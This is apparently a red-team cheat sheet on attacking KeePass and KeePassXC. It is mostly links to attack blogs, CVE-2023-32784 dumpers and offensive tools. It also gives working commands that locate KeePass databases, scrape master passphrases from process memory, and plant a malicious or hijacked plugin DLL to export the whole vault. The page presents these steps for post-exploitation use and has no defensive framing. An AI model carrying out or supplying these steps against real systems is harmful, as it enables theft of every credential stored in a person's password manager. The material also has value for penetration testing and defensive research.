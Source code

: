 # KeePass

- [https://blog.harmj0y.net/redteaming/a-case-study-in-attacking-keepass/](https://blog.harmj0y.net/redteaming/a-case-study-in-attacking-keepass/)
- [https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/](https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/)
- [https://habr.com/ru/post/346820/](https://habr.com/ru/post/346820/)
- [https://gist.github.com/naksyn/6d5660dacd0730498a274b85d62a77e8](https://gist.github.com/naksyn/6d5660dacd0730498a274b85d62a77e8)

Enumerate DB locations:

```
Cmd > type %APPDATA%\KeePass\KeePass.config.xml | findstr "<Path>"
```




## KeePassXC

- [https://github.com/keepassxreboot/keepassxc](https://github.com/keepassxreboot/keepassxc)

```
PS > [System.Diagnostics.FileVersionInfo]::GetVersionInfo($(Get-Item "C:\Program Files\KeePassXC\KeePassXC.exe")).FileVersion
```



### Extract Passphrase from Memory

- [https://github.com/d3lb3/KeePass-the-Hash](https://github.com/d3lb3/KeePass-the-Hash)

Using [strings2](https://github.com/glmcdona/strings2):

```
PS > .\strings2.exe -pid (Get-Process KeePassXC) -a -wide > KeePassXC_strings.txt
PS > gc .\KeePassXC_strings.txt | Select-String -Pattern "Passw0"
PS > (gc .\KeePassXC_strings.txt).length
PS > (gc .\KeePassXC_strings.txt).length / 1mb
```

Using `Get-ProcessStrings` from [PowerShellArsenal/MemoryTools](https://github.com/mattifestation/PowerShellArsenal/blob/master/MemoryTools/MemoryTools.ps1):

```
PS > Get-ProcessStrings -Id 1337 | Out-File KeePassXC_strings.txt
$ dos2unix KeePassXC_strings.txt
$ cat KeePassXC_strings.txt | awk '{print $3}' | grep -x '.\{5,30\}' > words
```




## DLL Hijacking

- [https://skr1x.github.io/keepass-dll-hijacking/](https://skr1x.github.io/keepass-dll-hijacking/)




## Extract Passphrase from Memory (< v2.53.1)

**CVE-2023-32784**

- [https://github.com/vdohney/keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper)
- [https://github.com/CMEPW/keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey)
- [https://www.forensicxlab.com/posts/keepass/](https://www.forensicxlab.com/posts/keepass/)




## Abusing KeePass Triggers (< v2.54)

- [https://d3lb3.github.io/keepass_triggers_arent_dead/](https://d3lb3.github.io/keepass_triggers_arent_dead/)
- [https://gist.github.com/d3lb3/fb6f5d82e47744f56117b350d94a6029](https://gist.github.com/d3lb3/fb6f5d82e47744f56117b350d94a6029)
- [https://19dx.ru/2023/06/triggery-keepass-mertvy-da-zdravstvuyut-triggery-keepass/](https://19dx.ru/2023/06/triggery-keepass-mertvy-da-zdravstvuyut-triggery-keepass/)




## Tools



### KeeFarce

- [https://github.com/denandz/KeeFarce](https://github.com/denandz/KeeFarce)



### KeeFarceReborn

- [https://github.com/d3lb3/KeeFarceReborn](https://github.com/d3lb3/KeeFarceReborn)


#### Abusing the KeePass Plugin Cache

- [https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html](https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html)
- [https://github.com/d3lb3/KeeFarceReborn/tree/main/KeeFarceRebornPlugin](https://github.com/d3lb3/KeeFarceReborn/tree/main/KeeFarceRebornPlugin)

Export DB by compiling and loading a malicious plugin (requires admin's privileges to place the `.plgx` file):

```
Cmd > KeePass.exe --plgx-create C:\KeeFarceReborn\KeeFarceRebornPlugin
Cmd > copy C:\KeeFarceReborn\KeeFarceRebornPlugin.plgx "C:\Program Files\KeePass Password Safe 2\Plugins"
```

Export DB by hijacking a legit plugin DLL (requires an existent plugin in use):

```
Cmd > copy "C:\Program Files\KeePass Password Safe 2\KeePass.exe" .
Cmd > devenv /build Release KeeFarceRebornPlugin.sln
Cmd > copy C:\KeeFarceReborn\KeeFarceRebornPlugin\bin\Release\KeeFarceRebornPlugin.dll C:\Users\snovvcrash\AppData\Local\KeePass\PluginCache\3o7A46QKgc2z6Yz1JH88\LegitPlugin.dll
```



### KeePassHax

- [https://github.com/HoLLy-HaCKeR/KeePassHax](https://github.com/HoLLy-HaCKeR/KeePassHax)



### KeeThief

- [https://github.com/GhostPack/KeeThief](https://github.com/GhostPack/KeeThief)



### CrackMapExec

- [https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_discover.py](https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_discover.py)
- [https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_trigger.py](https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_trigger.py)



### KeePwn

- [https://github.com/Orange-Cyberdefense/KeePwn](https://github.com/Orange-Cyberdefense/KeePwn)



### ThievingFox

- [https://blog.slowerzs.net/posts/thievingfox/](https://blog.slowerzs.net/posts/thievingfox/)
- [https://github.com/Slowerzs/ThievingFox/tree/main/keepassfox](https://github.com/Slowerzs/ThievingFox/tree/main/keepassfox)
- [https://github.com/Slowerzs/ThievingFox/tree/main/keepassxcfox](https://github.com/Slowerzs/ThievingFox/tree/main/keepassxcfox)
